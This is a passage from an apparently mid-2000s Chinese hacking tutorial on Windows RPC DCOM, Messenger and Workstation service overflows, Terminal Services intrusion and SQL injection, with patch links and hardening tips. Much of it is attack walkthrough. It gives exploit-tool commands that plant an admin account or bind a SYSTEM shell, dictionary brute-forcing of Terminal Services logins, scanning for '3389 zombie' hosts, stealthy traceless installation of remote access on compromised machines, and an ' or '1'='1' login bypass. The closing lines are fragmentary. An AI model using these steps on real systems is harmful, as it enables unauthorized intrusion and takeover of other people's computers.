http://microsoft.com/downloads/details.aspx?FamilyId=C8B8A846-F541-4C15-8C9F-220354449117&displaylang=en

Windows XP 32 bit Edition:
http://microsoft.com/downloads/details.aspx?FamilyId=2354406C-C5B6-44AC-9532-3DE40F69C074&displaylang=en

Windows XP 64 bit Edition:
http://microsoft.com/downloads/details.aspx?FamilyId=1B00F5DF-4A85-488F-80E3-C347ADCC4DF1&displaylang=en

Windows Server 2003 32 bit Edition:
http://microsoft.com/downloads/details.aspx?FamilyId=F8E0FF3A-9F4C-4061-9009-3A212458E92E&displaylang=en

Windows Server 2003 64 bit Edition:
http://microsoft.com/downloads/details.aspx?FamilyId=2B566973-C3F0-4EC1-995F-017E35692BC7&displaylang=en
```

## 16. DCOM long filename 堆溢出漏洞

此漏洞是一个新的 RPC DCOM 漏洞，不同于前面我们介绍的“冲击波”蠕虫病毒利用的 MS03-026 安全公告发布的漏洞。它是今年 9 月发现的又一个 RPC DCOM 接口新漏洞，微软 MS03-039 安全公告：RPC DCOM 接口长文件名堆缓冲区溢出漏洞。黑客利用此漏洞也能远程溢出执行任意系统命令，所以也是一个大漏洞。

### 漏洞情况

由于 Windows RPC DCOM 接口对文件名长度缺乏检查，通过传递超长参数会导致发生基于堆的溢出，可能以系统权限执行任意代码。远程攻击者利用这些漏洞可用本地系统权限在系统上执行任意操作，如安装程序、查看或更改、删除数据或创建系统管理员权限的账户。

其溢出之所以能发生也是因为 RPC DCOM 接口。此接口处理由客户端机器发送给服务器的 DCOM 对象激活请求（如 UNC 路径），攻击者通过向目标发送畸形 RPC DCOM 请求来触发溢出并利用这些漏洞。

攻击者可以通过 135(UDP/TCP)、137/UDP、138/UDP、139/TCP、445(UDP/TCP)、593/TCP 端口进行攻击。对于启动了 COM Internet 服务和 RPC over HTTP 的用户来说，攻击者还可能通过 80/TCP 和 443/TCP 端口进行攻击。

- 受此漏洞影响的系统包括所有没打过此漏洞补丁的：
  - Microsoft Windows XP
  - Microsoft Windows Terminal Services
  - Microsoft Windows NT 4.0
  - Microsoft Windows 2000
  - Microsoft Windows 2003 Standard Edition

- 不受影响系统包括：
  - Microsoft Windows ME
  - Microsoft Windows 98

## 神功初成：不负漏洞攻防

### 漏洞检测

比漏洞刚出不久，检测工具不是很多，不过“可爱”的微软公司倒是推出了最新的扫描 RPC DCOM 漏洞修补情况的工具，呵呵，我们可以用它来帮我们检测主机是否存在这个漏洞。该工具在命令提示下使用，包含了对 MS03-039 和 MS03-026 漏洞的检测。主程序是 `MSDcomScanner.exe`，用法是：

```txt
Usage: MSDcomScanner [/?] [/i:input_file] [/l:log_file] [/o:out_file] [/r] [/t:timeout] [/v]

target ...

Targets can take any of the following forms:
a.b.c.d          - IP address
a.b.c.d-i.j.k.l  - IP address range
a.b.c.d/mask     - IP address with CIDR mask
host             - unqualified hostname
host.domain.com  - fully-qualified domain name
localhost        - check local machine
```

如果我们现在要扫描 `192.168.0.1-192.168.0.254` 内的主机的 DCOM 漏洞情况，只要输入 **MSDcomScanner 192.168.0.1-192.168.0.254** 就行，如果要把结果保存到指定文件中还可以加 `/o` 参数。

扫描结果显示：“Checking 192.168.0.1-192.168.0.254, 192.168.0.1: unpatched......”，如图 1，发现一台没有打补丁的主机。


### 测试攻击

发现漏洞主机后我们接着就可以使用溢出攻击工具来进行入侵了。现在网上已经出现了好几种 DCOM 长文件名堆缓冲溢出攻击工具，我们这里选用一个名为 `rpc2sbaa.exe` 的溢出工具来入侵，因为它支持对 Win2000 英文版和中文版进行溢出。由于这个漏洞是基于堆（heap）溢出，构建 shellcode 比较困难，所以用 `rpc2sbaa.exe` 进行溢出成功后会自动在目标机中执行一条命令：添加一个帐号 IUSA，密码为 k911 的管理员帐户。用法是：

```txt
Usage: rpc2sbaa.exe Os targetip [method 0|1]
rpc2sbaa.exe 0 127.0.0.1
......
OSType:
Windows 2000 Sp3,SP4+ms-026(cn)-0
Windows 2000 SP4 +ms-026(en)-1
```


它可以进行溢出的版本是：Windows 2000 SP3、SP4+MS-026 补丁（中文）和 Windows 2000 SP4+MS-026 补丁（英文）。我们用它来对刚才扫描到漏洞的主机进行入侵测试，所以打开 CMD，输入：`rpc2sbaa.exe 0 192.168.0.1 1`，如图 2，溢出成功：“overflow Success !......”。如果出现“Connect failed. Error:10049”这类提示，那表示溢出失败。

这样溢出成功后，我们已经在目标主机上有了一个帐号 IUSA，密码为 k911 管理员帐户，接着我们可以利用 IPC 连接，在 CMD 输入：

```txt
net use \\192.168.0.1\ipc$ "k911" /user:"iusa"

D:\>net use \\192.168.0.1\ipc$ "k911" /user:"iusa"
```

系统提示：命令成功完成，如图 3，溢出成功。


图 4

### 解决方法

我们一开始已经说了，这个 DCOM 长文件名堆溢出漏洞与 7 月发现的那个 MS-026 安全公告公布的漏洞是不同的，所以那个漏洞的补丁和 Windows 2000 SP4 补丁都解决不了这个漏洞，必须安装微软发布于 9 月中旬的针对这个 DCOM 长文件名堆溢出漏洞的补丁才行。下载地址：

- Windows 2000: http://www.microsoft.com/downloads/details.aspx?FamilyId=F4F66D56-E7CE-44C3-8B94-817EA8485DD1&displaylang=zh-cn
- Windows XP: http://www.microsoft.com/downloads/details.aspx?FamilyId=5FA055AE-A1BA-4D4A-B424-95D32CFC8CBA&displaylang=zh-cn
- Windows XP 64 bit Edition: http://www.microsoft.com/downloads/details.aspx?FamilyId=50E4FB51-4E15-4A34-9DC3-7053EC206D65
- Windows XP 64 bit Edition Version 2003: http://www.microsoft.com/downloads/details.aspx?FamilyId=80AB25B3-E387-441F-9B6D-84106F66059B
- Windows Server 2003: http://www.microsoft.com/downloads/details.aspx?FamilyId=51184D09-4F7E-4F7B-87A4-C208E9BA4787&displaylang=zh-cn
- Windows Server 2003 64 bit Edition: http://www.microsoft.com/downloads/details.aspx?FamilyId=80AB25B3-E387-441F-9B6D-84106F66059B

如果是单机个人用户，可以考虑暂时禁用 DCOM。打开“管理工具”→“组件服务”，在“控制台根目录”树的“组件服务”→“计算机”→“我的电脑”上单击右键，选“属性”，在“默认属性”页，取消“在此计算机上启用分布式 COM”的复选框，如图 4。不过禁用 DCOM 可能导致某些应用程序运行失败和系统运行异常，包括一些重要系统服务不能启动，这种解决方法只能暂时使用。

Windows 2000 用户，建议先安装完 Windows 2000 SP4 之后再安装上述补丁。

## 17、Messenger 远程溢出漏洞攻防

### 漏洞情况

Windows NT/2000/XP/2003 操作系统中有一个默认开放的 Messenger（消息队列服务）。该服务用于 NT 服务器之间发送和接收系统管理员或“警报器”服务传递的信息。2003 年 10 月被发现存在严重远程缓冲区溢出漏洞：在向缓冲区保存消息前未正确检查消息长度，攻击者可构造超长字符串触发 `search-by-name` 函数堆溢出，导致拒绝服务、系统重启，甚至执行任意代码并获取系统访问权限。

- Microsoft Windows NT 4.0 SP6a
- Microsoft Windows 2000 SP0/SP1/SP2/SP3/SP4
- Microsoft Windows XP SP0/SP1
- Microsoft Windows 2003


### 漏洞检测

网上有专门用于扫描 Messenger 服务是否开放的扫描器，有命令行也有图形界面。

我们可以使用扫描器对主机进行漏洞扫描。`RetinaMSGSVC.exe` 是 eEye 的 Messenger 漏洞扫描器（见光盘），图形界面、速度较快。输入 IP 段后即可扫描，结果在下方显示；若发现漏洞，会在 result 中显示 “vulnerable（有弱点的）”。


### 测试攻击

网上已出现该漏洞的攻击代码，可进行远程溢出并获取系统控制权。文中使用 `msgr.exe`（针对英文版 Windows 2000/XP），成功后会在目标 9191 端口绑定一个 Shell，可通过 Telnet 连接执行命令。

```txt
Usage: msgr.exe [TargetIP] [ver: 0 | 1]
eg: msgr.exe 192.168.63.130 0
Target OS version:
[0] Windows 2000 SP 3 (en)
[1] Windows XP SP 1 (en)
```

```txt
c:\>msgr.exe 192.168.0.2 0
```

如图 3，当程序提示“......Packet injected...Try connecting to 192.168.0.2:9191”时，可尝试连接目标 9191 端口：`telnet 192.168.0.2 9191`。若溢出成功会出现 Shell 提示符（如图 4）。


图 3


图 4

### 解决方法

我们已经了解了此漏洞的具体情况，也知道如果此漏洞被黑客或蠕虫利用，后果肯定很严重，所以大家应该及时补上这个漏洞。Messenger 消息是通过 NetBIOS 或者 RPC 提交给消息服务，所以可以通过封闭 NetBIOS 端口（137-139）和使用防火墙过滤 UDP 广播包来阻挡此类消息。在边界防火墙或者个人防火墙上禁止不可信主机访问 NetBIOS 和 RPC 端口：135、137、138、139（TCP/UDP）。如果不使用 Messenger 服务可以把它禁用。打开“开始”菜单，点击“控制面板”中的“计算机管理工具”，双击“服务”，找到并双击“Messenger”，然后点击“停止”，如图 1，并在“启动类型”的下拉框中选择“已禁用”。

微软也已经提供了安全补丁以修复此安全漏洞，如果有不同的操作系统需要下载安装不同的补丁，可以通过微软网站的安全公告选择并下载安装针对您所用系统的安全补丁，下载地址：

- Microsoft Windows 2000, Service Pack 3, Service Pack 4  
  http://www.microsoft.com/downloads/details.aspx?FamilyId=99F1B40D-906A-4945-A021-4B494CCCBDE0&displaylang=en
- Microsoft Windows XP Gold, Service Pack 1  
  http://www.microsoft.com/downloads/details.aspx?FamilyId=F02DA309-4B0A-4438-A0B9-5B67414C3833&displaylang=en
- Microsoft Windows XP 64-bit Edition  
  http://www.microsoft.com/downloads/details.aspx?FamilyId=2BE95254-4C65-4CA5-80A5-55FDF5AA2296&displaylang=en
- Microsoft Windows Server 2003  
  http://www.microsoft.com/downloads/details.aspx?FamilyId=1DF106F3-7EC4-4EB0-9143-C1E3C9E2F5F8&displaylang=en
- Microsoft Windows Server 2003 64-bit Edition  
  http://www.microsoft.com/downloads/details.aspx?FamilyId=8B990946-84C8-4C91-899C-5A44EC13174E&displaylang=en

## 18、Workstation 服务远程溢出漏洞攻防

### 漏洞情况

不久前微软的 Windows 操作系统又发现了一个非常严重的危险漏洞：Workstation 服务远程溢出漏洞。Workstation Service（工作站服务）是 Windows 2000 和 XP 操作系统中赖以正常运行的基本服务，它主要用于让网络上的计算机访问文件服务器以及网络打印机。而且在这些操作系统中 Workstation Service 也是默认开放的，如图 1。


图 1

黑客利用这个漏洞可以进行远程溢出获取系统权限、执行任意命令。造成此漏洞的主要原因是由于 Microsoft Workstation 服务在处理日志记录时缺少充分的边界缓冲区检查，在 `wkssvc.dll` 的 `vsprintf` 调用中没有检查输入缓冲的长度，利用函数 `NetValidateName` 提供超长参数可以直接触发缓冲区溢出。一般如果是 NTFS 文件系统，在 Windows 目录中的“debug”目录不允许所有人可写，这表示不能使用 NULL 会话来生成日志；而如果是 FAT 文件系统，那就可能被成功利用。这样攻击者可以在受影响系统中获得“系统”权限并执行任意指令，或导致 Workstation 服务失效。攻击者可以在系统中采取任何行为，包括安装程序、浏览数据、更改数据、删除数据，或以全权限创建新帐号等。

受影响的系统：

- Microsoft Windows 2000 SP2、SP3、SP4
- Microsoft Windows XP SP1

### 测试攻击

目前网上已经出现了这个漏洞的溢出程序，利用程序可以攻击 FAT32 文件系统的 Win2000 服务器，并取得系统权限。下面我们来看看其测试攻击过程。我们这里用的溢出工具是 `ms03049.exe`，它的用法是：

```txt
Usage:
On 2k:
ms03049 IP  ---> attack 2k without ntfs
On xp:
ms03049 IP 2k ---> attack 2k without ntfs
ms03049 IP    ---> attack xp
Next open another window: nc IP 1234 ---> Get cmd shell
```

可能有些朋友看不明白，说明一下：如果你用 Win2000 系统对 `192.168.1.1` 主机进行测试攻击，就只要输入：`ms03049.exe 192.168.1.1` 就行，不用管它是 2000 还是 XP；如果是在 WinXP 上要对 `192.168.1.1` 主机进行测试攻击，那就要区别了，输入：`ms03049.exe 192.168.1.1 2k`，表示攻击 2000 系统；`ms03049.exe 192.168.1.1` 则表示攻击的是 XP 系统。攻击后如果溢出成功，那就会在对方主机的 1234 端口绑定一个 Cmd Shell，我们只要 telnet 上去就可以执行命令了。


图 2

好，我们接着进行实战测试。打开命令行工具，我所用的系统是 WinXP，攻击测试目标 `192.168.1.1` 也是 WinXP，所以在 CMD 中输入：`ms03049.exe 192.168.1.1`，如图 2。攻击时客户端先要和目标主机建立 `ipc$` 连接，然后用 `NetValidateName` 进行交互，才能触发溢出。所以如果攻击时出现了“Can't create null session!”（不能建立空连接）等提示，那就说明攻击没有成功，如图 3。


图 3

溢出成功后，接着可试试用 telnet 连到对方 1234 端口：`telnet 192.168.1.11 1234`。不出意外的话你就可以得到一个 system 权限的 Shell 了，如图 4，这样你就可以执行任意命令了。


图 4

### 解决方法

此漏洞临时解决方法：可以用防火墙过滤 UDP 138、139、445 端口和 TCP 138、139、445 端口，也可以使用个人防火墙和系统的 TCP/IP 过滤来封掉这些端口。也可以停止 Workstation 服务，如图 5，不过要注意：禁用此服务将导致很多依赖它的服务失效，因为网络上的计算机必须激活这个功能才能访问共享的文件服务器或打印机。例如您将不能访问共享资源，不能使用拨号、ADSL 连接等。


图 5

微软也已经推出了安全补丁以修补这个漏洞，用户可以选择并安装针对所用系统的安全补丁，补丁下载地址：http://www.microsoft.com/technet/security/bulletin/MS03-049.asp

## 19、终端服务漏洞攻防

### 服务简介

终端服务 TS（TermService）是 Win2000/XP/2003 中的一个基于远程桌面协议（RDP）的服务，其性能稳定，而且具有强大的远程管理和控制能力，默认服务端口是 3389。通过此服务登录后可以完全享有远程主机的桌面系统并进行图形化远程管理，如图 1。管理员们一般用终端服务来进行远程管理。

但是因为终端服务功能太强了，其功能之完备使任何木马后门都望尘莫及，所以黑客们也非常喜欢使用它。网上从终端服务问世以来，关于终端服务攻击就一直是黑客们关注的热点，黑客们甚至把开了终端服务的主机亲切地叫作“3389”肉鸡。到了今天还有许多朋友“孜孜不倦”地在追求“3389”肉鸡。下面我们就来介绍一些常见的终端服务漏洞攻防知识。


### 寻找目标

首先我们要知道，终端服务在 Win2000/XP/2003 系统安装过程中并不是默认安装的，只有在组件里选上“终端服务”后才会安装，如图 2。而且在 Win2000 中，Professional 版本是没有终端服务的，只有 Server 版本才有。

如果要检查你自己的主机是否开放了终端服务，可以去服务中查看 Windows TermService 是否启动就可以了。

而如果要在互联网上寻找开放了终端服务的主机也很简单，因为终端服务的默认服务端口是 3389，所以我们只要扫描开了 3389 端口的主机就可以了。打开 SUPERSCAN 扫描器，要扫描的端口设为 3389，开始扫描，一段时间后会发现开了 3389 端口的主机，如图 3。


## 入侵方法

找到开放 3389 的终端服务主机后，黑客接着就开始想尽办法要从终端服务登录主机。不过俗话说“八仙过海，各显神通”，黑客们具体入侵的方法是多种多样的，下面我们概括了最常见的一些方法。

### 1、密码尝试法

我们知道发现终端服务主机后，用终端服务客户端程序连接上去会出现登录界面，要求我们输入账号和密码。利用这点我们可以尝试常用密码来入侵。当然如果手工试是很笨的，而且经常要断线，我们可以利用工具来进行密码尝试。TSGrinder 就是一个能挂上字典后通过 TS 服务对 administrator 等账户进行密码尝试的程序，如图 4。它是一个命令行工具，用法：

```text
Usage:
  ts [options] server

Options:
  -w dictionary file (default 'dict') (字典文件)
  -l 'leet' translation file
  -d domain name
  -u username (default 'administrator')
  -b banner flag
  -n number of simultaneous threads
  -D debug level (default 9, lower number is more output)
```

如果对一台 192.168.0.2 的终端服务主机进行管理员密码猜解，就输入以下命令：

```text
ts -l passwd 192.168.0.2
```

运行命令后，mstsc.exe 会自动弹出，TSGrinder 开始根据字典对 administrator 用户进行密码猜测。这种密码探测完全是通过 TS 进行的，和 IPC 连接无关系。

> **经验提示：**TSGrinder 其实是利用 TS 的 ActiveX 控件来自动完成一次又一次的密码输入过程来进行攻击的，它本身没有连接 TS 的功能，攻击时还是要通过 mstsc.exe 才能进行。所以在使用 TSGrinder 前，你一定要注意把客户端程序 mstsc.exe 与 TSGrinder 放在同一文件夹下才行！

### 2、中文输入法入侵

Win2000 输入法漏洞入侵终端服务，我们在前面介绍输入法漏洞时已经具体地讲了。这个方法可以说是入侵终端服务最简单的方法，不过今天已是 2004 年了，要发现有输入法漏洞主机，可能是万分之一的几率。

### 3、IPC 和 SQL 弱口令入侵

这种入侵方法是先利用国内的经典黑软“流光”“X-SCAN”等扫描器的 IPC$ 口令用户探测功能，对终端服务主机进行密码猜解。如果扫描到密码为空或超级简单的用户，那么你就可以用此账号正大光明地从终端服务进去了。

当然也可以先扫描 SQL 的弱口令，再通过 SQL 添加 NT 用户，再从终端服务进去。IPC 和 SQL 弱口令探测的具体方法前面都介绍了，这里就不说了。

### 4、其他漏洞迂回入侵法

如果不能直接获得账号从终端服务进入，那只能先看看有没有别的漏洞可以利用。如果有，可以先利用这些漏洞取得控制权，窃取合法账号或增加账号后再从 3389 登录。

经常利用的漏洞有：UNICODE 漏洞、idq 漏洞、printer 漏洞、Webdav 漏洞、RPC 漏洞、各种脚本漏洞等等。前面我们讲的都是最常见的可以利用的漏洞，当然具体的机子得具体分析。取得控制权后，利用窃取的账号或新加的账号就可以登录终端服务进行图形界面的管理了。

有朋友可能会问，既然已经取得控制权了为何还要从终端服务进呢？这是由于终端服务的功能太强大，黑客在通过其他途径取得控制权后，为了更好地控制和管理，往往要再利用终端服务。

## 启动服务

在实际应用中，有时候会遇到这样的情况：拥有了一台机子的控制权和合法账号，但是该机没有启动或没有安装终端服务。在这种情况下可以由我们来给它打开终端服务。

### 1、“计算机管理工具”启动终端服务

如果远程主机已安装了终端服务但停止了服务，我们可以利用“计算机管理工具”启动远程主机的终端服务。打开 Win2000 管理工具中的“计算机管理”，用鼠标右键点击“计算机管理（本地）”，选择“连接到另一台计算机”。

然后在“名称”里输入远程主机的 IP（如图 5），按“确定”，然后会弹出“输入连接密码”的对话框，输入用户名和密码后连接就会成功。不过要注意的是，你建立连接的账号必须是管理员权限，不然就没有权限启动终端服务。

接着，选择“服务和应用程序”中的“服务”，等几分钟后（具体看网速）右边视窗中就列出了远程主机的服务（如图 6）。找到 Terminal Services，用鼠标右键单击它并启动，等进度条完成后，终端服务就启动了。

图 5  
图 6

### 2、远程安装终端服务

如果远程主机还没安装终端服务组件，那我们可以用无人值守工具 Sysocmgr.exe 在命令行下替它安装。这种方法的先决条件是取得了管理员权限，能 telnet 远程执行如下命令：

```text
c:\>echo [Components] > c:\startTS
c:\>echo TSEnable = on >>c:\startTS
c:\>sysocmgr /i:c:\winnt\inf\sysoc.inf /u:c:\startTS /q /r
```

（如果没有 /r 参数的话，服务器会自动重启。）这样计算机重新启动后，它的终端服务就开放了。

### 3、利用程序安装终端服务

djyxs.exe 是一个终端服务的自动安装程序，你只要把它拷贝到对方系统中然后运行它，等一会儿肉鸡会自动重启。重启后会出现终端服务，而且在“组件”的添加和删除中看不出终端服务被安装的痕迹。它还具有自我销毁的功能，不会留下痕迹。

## 安全加固

终端服务是一个非常不错的远程管理工具，但它也因此常被黑客们关注。在网上开放了终端服务的主机比较容易引来黑客。如果你不使用终端服务，那建议你彻底删除它，只要把与之对应的 system32\termsrv.exe 程序删了就行。

如果你正在使用终端服务，强烈建议你对终端服务进行安全配置。

### 1、修改服务端口

终端服务默认服务端口是 3389，黑客也常常通过扫描 3389 端口来判断服务器是否开启了终端服务。如果我们改一改它的服务端口，就可以大大降低其风险性了。

具体方法可以通过修改 Win2000 注册表的两个地方来实现。进入注册表的第一个地方：

`[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer\Wds\rdpwd\Tds\tcp]`

下，找到“PortNumber”，它的值是十六进制：`0xd3d`（就是 3389），改成你想要的端口，比如 9833。改的时候可以用十进制。

然后进入注册表的第二个地方：

`[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer\WinStations\RDP-Tcp]`

下，找“PortNumber”，默认键值也是 3389，修改成你刚才第一次改的端口，如 9833。这样重启系统，终端服务的端口就改变了。

服务端口改了，客户端也要改成相应端口，不然就连不上。具体方法：打开客户端连接管理器，建立一个客户端连接的快捷方式，选中这个连接后在“文件”菜单里选择“导出”（如图 7），这样会生成一个 `.cns` 文件。用文本方式打开它，找到“Server Port=3389”这句，把 3389 改成与服务端相应的端口后保存，然后再选“文件”菜单里的“导入”，这样客户端也修改完成了。

图 7  
图 8

### 2、加强日志

终端服务自带的日志审核不够健壮。它虽然能记录“连接”“注销”“登录”等事件，但微软的这个日志功能有致命缺陷：它只记录连接机器名而不记录连接机器的 IP 地址，而机器名是很容易作假的，这样对检测很不利。所以我们要自己动手弥补其不足。

建立一个批处理文件 Iplog.bat，内容如下：

```bat
time /t >>TerminalServicelog.txt
netstat -n -p tcp | find ":3389">>TerminalServicelog.txt
start explorer
```

此文件的作用：

- 第一行是记录用户登录的时间。`time /t` 直接返回系统时间，`>>TerminalServicelog.txt` 是把显示的时间写入到 `TerminalServicelog.txt` 文件。
- 第二行是记录用户的 IP 地址。`netstat -n -p tcp | find ":3389"` 是显示连接到 3389 端口的 TCP 协议信息，同时把这个信息重定向到 `TerminalServicelog.txt` 文件。
- 第三行 `start explorer` 是启动 explorer，进入桌面。

写好这个批处理文件 Iplog.bat 后，打开终端服务配置，把每个用户的默认登录脚本设置为 Iplog.bat 就行了。

### 3、设置 IP 安全策略

Windows 2000 的管理工具中有一个“本地安全策略”工具（如图 8）。我们的方法是利用其中的“IP 安全策略”来设置规则：只允许合法 IP 可以连接终端服务，过滤掉非授权 IP 地址连接，这样可以把那些试图连接我们终端服务的“不速之客”拒之门外。

基本思路是：

- 先设置一个 IP 安全策略，过滤所有远程连接本地 3389 端口的 TCP 请求；
- 再设置一个允许通过特定授权 IP 连接的安全策略，比如管理员工作站 IP 地址，或某个子网的所有 IP；
- 最后让这两个 IP 安全策略生效。

这样你的终端服务就能拒绝不速之客，只为你服务了。

## 第三节 Windows 脚本漏洞攻防

### 一、脚本漏洞攻防概述

在现代的网络世界中，脚本的应用可以说是随处可见，如：ASP、PHP、CGI 等。它们被广泛应用于各类基于 Web 技术的服务器之中，如：新闻发布系统、BBS 系统、电子商务系统等。不言而喻，Web 服务可以说是当今网络中最基本的服务了，它开的 80 端口可以说永远都是“合法”的，不会被防火墙所拦截。

在今天防火墙功能越来越强大、系统 SP 补丁也越出越快、端口越开越少（很多就只有 80 端口）的时代里，想利用系统漏洞（如远程缓冲区溢出等）来入侵系统将会变得越来越困难。然而，脚本漏洞攻击则不同，它用的本身就是服务器合法的 80 端口，而且随着各种新功能脚本应用程序的不断出现，脚本漏洞攻击的可能性会不断增加。可以说，脚本漏洞攻击对于一位黑客来说应该是一种永具生命力的攻击手段，它永远不会被淘汰。因此，要成为一名黑客必须要掌握脚本漏洞攻击的知识和实际攻击技巧。

脚本语言与编程语言之间最大的区别，还是在于编程语言的语法和规则更为严格和复杂一些。

### 1、什么是脚本

先让我们来认识一下什么是脚本。它和 HTML 及编程语言又有什么不同呢？

其实脚本语言是一种介于 HTML 和 Pascal、C++、Visual Basic 等编程语言之间的一种语言。它是以“操作系统 + 脚本引擎（脚本解释器）+ 脚本语言”的方式工作的，而 Pascal、C++ 以及 Visual Basic 等编程语言编译出来的应用程序是以“操作系统 + 应用程序”的方式工作的。

一般来说，脚本语言都不直接编译成可执行文件（当然并不是说绝对不行，不少脚本也是可以编译成可执行文件的），HTML 当然是一种纯解释性语言。

### 2、脚本的工作原理

再让我们来看看脚本语言在服务器上是如何工作的。上面我们讲到，脚本语言是以“操作系统 + 脚本引擎（脚本解释器）+ 脚本语言”的方式工作的。因此，要使脚本语言在服务器端正常工作，就需要在服务器端安装脚本引擎。但实际上，服务器操作系统一般都默认安装了很多常用的脚本引擎，只有一些不常用的脚本语言才需要另外安装脚本引擎。

那么什么是脚本引擎呢？脚本引擎是用于处理脚本的 COM（组件对象模型）对象的程序。脚本引擎提供脚本语言在主机执行的环境并对脚本程序中的脚本命令进行解释。当解释完毕后，脚本引擎把脚本命令的执行结果发往客户端浏览器，整个解释过程全部在服务器上完成，客户端浏览器收到的只是 HTML 格式内容。

但是客户端浏览器可以以变量形式向脚本程序提交数据和指令，前提是脚本程序有能力处理这些数据和指令，否则就会无效或者出错。具体过程是这样的：浏览器以表单形式先向 Web 服务器发送信息，Web 服务器在收到这些信息后，以变量形式把表单内容存储起来，然后再调用浏览器指定的脚本程序来处理这些变量。在调用脚本程序时，Web 服务器会根据脚本程序的扩展名（如 .asp、.php 等）启动相应的脚本引擎来解释脚本程序，解释结果用于对变量的实际处理。至于解释结果到底能不能对变量做出正确且有实际意义（相对于这个脚本程序原本要实现的功能）的处理，就要看脚本程序本身的编写情况，也就是脚本作者的编程水平了。

### 3、脚本漏洞攻击原理

了解了什么是脚本语言以及脚本语言在服务器端的工作原理之后，现在我们可以来理解什么是脚本漏洞攻击了。根据上面的知识我们知道，客户端浏览器可以以变量形式向脚本程序提交数据和指令，这也就是脚本漏洞攻击得以实施的基础；但是脚本程序处理数据和指令存在漏洞和缺陷，是实施脚本漏洞攻击的前提条件。

也就是说，我们以什么样的形式对脚本程序发起攻击以及能否成功，完全取决于脚本程序本身的属性（脚本程序代码的编写情况）。

讲到这里大家应该对什么是脚本漏洞攻击有一定了解了。为了加深大家的认识和理解，并能掌握一定技巧来实施脚本漏洞攻击，接下来我们将通过一个实例来进一步详细讲解。

#### 二、SQL 注入攻击

#### 1、什么是 SQL Injection 攻击

SQL 注入（SQL Injection）攻击是目前网上最流行、最热门的黑客脚本攻击方法之一。什么是 SQL 注入式攻击呢？其实 SQL Injection 是一个专业术语，是将 SQL 代码传递到一个并不被开发人员所期望的应用程序中的行为。而 SQL Injection 攻击是指黑客利用一些 Web 应用程序（论坛、留言本、文章发布系统）中某些疏于防范的、用户可提交或可修改的数据页面，构造恶意 SQL 语句并注入执行，以获取用户密码等敏感信息，乃至主机控制权限的攻击方法。

SQL injection 攻击并不仅仅局限在 Mssql 数据库中，Access、Mysql、Oracle 等都可以进行 SQL injection 攻击。SQL injection 是很灵活的技术，而 SQL injection 攻击因构造 SQL 语句不同、被入侵主机系统或 Web 程序不同，方法也是多种多样的，但目的只有一个：想方设法绕过程序或 IDS 的检测并提交我们构造的有效语句。

SQL Injection 漏洞一般是由于编写脚本程序时输入校验不严格和在错误的代码层中编码引起的。

#### 2、简单的攻击案例

我们这里有一个用 ASP 编写的 Web 应用登录页面，这个登录页面控制用户是否有权访问应用脚本程序规定的功能。它要求用户输入一个名称和相应密码，然后该表单被发送到 Web 服务器进行处理。

接下来，服务器端 ASP 脚本根据表单提供的信息生成 SQL 指令语句提交到 SQL 服务器，并通过分析 SQL 服务器返回结果来判断该用户名/密码组合是否有效。

图 1

登录页面中输入的内容将直接用来构造动态 SQL 命令，或者直接用作存储过程参数。下面我们来看一下这个 ASP 程序用于认证身份的代码：

```asp
username=Request.form("username")
password=Request.form("password")
sql="select * from admin where username='"&username&"' and password='"&password&"'"
rs.open sql,conn,0,3
if not rs.EOF then
Session("login")=true
Response.Redirect ("login.asp")
```

上面这段登录认证代码，只要攻击者在用户名和密码输入框中都输入“' or '1'='1'”的内容（如图 1），那么攻击者就可能不经过任何认证而直接进入 login.asp 登录页面，并拥有和正常登录用户一样的全部特权。填好后按“确定”提交上去，居然提示“登录成功”（如图 2），是不是很可怕。那问题到底出在哪里呢？

图 2

我们先来看这两句：

```asp
username=Request.form("username")
password=Request.form("password")
```

表单中的 username 和 password 没有经过任何过滤就传递给变量 username 和 password 了。再看下面这句：

`sql="select * from admin where username='"&username&"' and password='"&password&"'"`

变量 username 和 password 就被直接传给了 SQL。

下面我们来看一下，当用户输入的“' or '1'='1'”内容提交给服务器之后，在服务器上运行的 ASP 代码构造出来的查询用户身份的 SQL 命令将会变成什么样子。由于攻击者输入内容非常特殊，而且又被直接代入 SQL 命令，所以最后得到的 SQL 命令将会变成这样：

`SELECT * FROM Users WHERE login = '' or '1'='1' AND password = '' or '1'='1'`

由于 SQL 执行的是布尔运算，也就是真假运算。这里 `login=''` 为 0（假），`'1'='1'` 为 1（真），`0 or 1 = 1`（真），因此 `login='' or '1'='1'` 的运算结果为真。同理 `password='' or '1'='1'` 的结果也为真，`1 AND 1 = 1` 结果也为真，所以整条 `login='' or '1'='1' AND password='' or '1'='1'` 查询语句的最终结果为真，从而服务器会认为条件成立，于是把 login 登录标志设为 true，让攻击者以合法身份登录进入 login.asp 页面。

这就是简单而典型的“SQL 注入”式攻击了。当然，因为上面的代码是我们为了学习有意构造出来的，在现实运用中，脚本编写程序员不会傻到像上面这样完全不过滤变量就把它传给 SQL 命令。所以实际攻击要复杂艰难得多，我们要想办法绕过脚本对变量的过滤，最后达到注入式攻击的目的。

#### 3、SQL 注入漏洞检测

如何检测 SQL injection 漏洞呢？最直接的方法当然是分析对方 Web 程序源代码。如何能拿到这些 Web 程序源代码呢？首先你可以查看对方 Web 应用程序（论坛、留言本、文章发布系统）是否是免费版本。因为网上大多数中小网站一般不会花大量人力和时间去开发新的大型 Web 应用程序，它们一般会采用网上免费提供的论坛、留言本、文章发布系统。

所以我们可以根据这些 Web 应用程序的样式、作者、版权说明以及其特有页面等信息来判断其版本，然后用 GOOGLE 搜索下载地址，找到后下载到本地进行源代码分析。

但是并非所有 Web 程序都能得到源代码让我们分析。对于一些站点非公开的 ASP 等程序，我们并不知道其程序代码，如何才能找到其 SQL injection 漏洞呢？我们可以用专用的 SQL injection 漏洞扫描器 sqlacs.exe，它能扫描网站页面中存在的 SQL 注入攻击点，还能自动识别程序员设定的陷阱。使用时非常方便快捷，比如你想检测的网站为：

`http://www.test.com`

则直接输入“scan”即可。如果想对子页面测试，则要输入：

`http://www.test.com/x/y.asp`

发现的注入点会在下方显示栏里显示（如图 3）。

当然也可以用手工检测，不过比较麻烦。比如由于我们执行 SQL 语句要用到单引号、分号、逗号、冒号和“--”，所以我们就在可修改的 URL 后加上以上符号，或在表单文本框加上这些符号，比如：

```text
http://www.test.com/list.asp?id=1'
```

## 经典漏洞攻防初成

http://www.test.com/list.asp?id=1; ……


有：执行系统命令、从数据库中提取信息、对数据库内容进行添加和修改等。

